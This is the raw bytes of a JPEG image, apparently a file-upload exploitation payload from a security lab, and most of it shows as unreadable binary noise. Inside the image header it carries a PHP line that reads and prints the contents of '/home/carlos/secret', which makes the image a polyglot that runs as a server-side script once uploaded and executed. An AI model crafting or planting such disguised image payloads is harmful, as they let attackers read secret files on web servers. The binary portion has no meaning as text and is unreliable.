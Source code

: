 ���� JFIF      �� M<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>�� C 	

			

		


�� C	�� �-" ��             	�� Q  !1A"Qa2q#B��R�3b��$Cr�S�%4��Dc��	T�&s���56E����             �� 0   !1A"Q2aqB#R��3��b����   ? �����J9�@Т�QE
(���Q@�(��AEPEPEP)i(��QE�G^h�����(����&x� 
>��UxI$�G��@ �N�
4z��ޓ@9���ҁҎH���L�Ҋ��Q��E�QE(��q@ �w�4qN��()hZC�H
!⁊)����P	�/"��z
sA�� (����Q�9����h���QGZQ�P0�Ji �
�P&�Ҍ��jP}��⓯j9�bQ�4q��A }(QE�[g�Ҁz����)E$��6��N()z⛊^G�И�j	"���v��:� �#�ӹ�M������!�R�pO41��c�M&I�J9��!}�Ө��cZ9��Ҍ�@�b�Җ�ڎ�_֐�Z( ��Z(P�1A84ɣ��(����Ks�ESLT�9#� �~��@?�)�$��v;�TiBv��y���Յ(�@�Ҕ� z&��w��QށУ�LR�H���psL*�Ȥ�R1H@�T3�i{e>��i=���\���I�@����G4�6�3��#4�=�@8������)h	A�Q�@��{�{��!�A-	IN��J@(Cx��A��Q�1E�B`��g�Z^h�ҝ���R�b�����J�;�P{�A�Se=(��u�aBRR���	�4�y�I�d46�zP�6�M	ϥ�dу����ϭb���(������Q�R(4!���S�&GL�LLO���I�)��E9�����<b�"���R��~Դ�=sG4���@1KH�4�����u�M	�Ls�v�&9�h =�z�I�ўx�,9�;�F3�-0
);� ��^��@�L�@�3KM��FF0(,u4����j(
n3Kө�v�����f��M�
(��Z��
)x��

��:��Ps@д�R�@ڱ�S����A-
����NԝO�P1 ������QHN)�zb��R�ޚs@��(�V4QE���ZN�s@��i9�E��sۥ:$Z(��a��{ih�MQ@�֗��t抳��(�aEPQGJJS�������� `�S�sI�PQE
��(�TQKւ��R�J�?J��Q�Xzg֒���R�i����ɡ ���IJ �L�?� sJ��K{��A�֐!h�(���
(��aEP${�E�)^h�@�P1:Ӈ������-QA~�(��(z�E)�b�� (�(� P R��QRRAEUGN�����(�liX� `~�v��}�(�P�����aN�P:A�(�\Ө�t ����>��P	���( ����@��P=(�t%�('�-!���Q�\{Rϵ��׭C֛O�(ێh&��v���

Q������i�%)掴��Z)��1M�N�n(��.z8�@P�QEN�zh�8��((^{B9�S��Ǹ�t3��)�`�Q@�0(��q�ZP ���t�zR=(CG�<� ���:�Ҁ�ii��&���qKLB�i
)�a@����Q@	�@��)ϥ�8�Ph���@QA!G�R1�0=)h�!�<qIO���M
�E.�ڔz@P�)��c�Bt RS��@�^�g�0h�J���4��N):�LM
=h�8�IL��=i��!�E��I�y�:���%8�v��&QEAEP!1K�EQ@Q@P��ޗ��;&��׊
.3�GOzv!3J(�(�Ţ�)u����9���2:PH�0�	8��1A���Bܚ\�H҂:R`▊N�P�w�KI�Դ���(�(,(���Ug�.3H�2)�J@�R5����/zi�b��
Z i�jN��mKۭ4u&QE
(�'-�҃� Z9�E5T�������QA,(��OZdع����#�LZ
m�UX��4��v�Lb���Q����H:"�9���[ө�G��QEg0QE�4 QE QE�
%P0��(�QE8c=h���\w}������iH��sE�C�:��(� ZA��t4u�tɣ�� �Jq#�%P	KIF(
(���GZS�JQ�4� 8=(����HŢ�(
)9>���AEPPQE
(��
^��P1����� (��
�Q�� {z�@�� ���FE :���)���@}h�g<R{�*��'�E( ө =��t�HJn09��PEheR�J	B��4b��ؠ���( ��( ��(����( �zP(�P	мt4 (=hϭ�(��QJ:P:��IH((�)�t#�0C@�j�f[ϥ �j�0\W];6o�4Fy�i��� �h���( ��I��s@���S��&=�
�\zъBQF(�T�z��(�y������#4v⁎��A��:��
M��b����(}���-0�1��-RlaER��9?�Pzu�"���S$J8�h4ր
(��L�(��GZZ1�Bw����;�)�/�P}���?jJ��is�A4%b�AAK�jJ)�Q�1ގ�f���:;�A�a@��(���jSM��>Ɨ�|�
Q�P1��:�G8�1��O���ќ��9�I�ӈ�&
2�qK�
1�F(=))H��Ҁ���֛@(��E�{b��(�� QE�Q@ ��( ��҂3K@���{��@V��QEt����ӲZ�sM=iߥ7��1=�(��AJ1ރ@�Уڎ{�Z
IT�w��AEPXEP@�����R����)"�D4���)�@Ţ�(�j�=�ԇ'�P&��u��������)�w�R� oJ)O^�`��B�KL�iåLJm8���&QHzSD1����'�:UQ6/��f�ȥ�Ɛ�֞5'�;5&Ѡ ����)�"�66�b�(2bc�KEN���
Z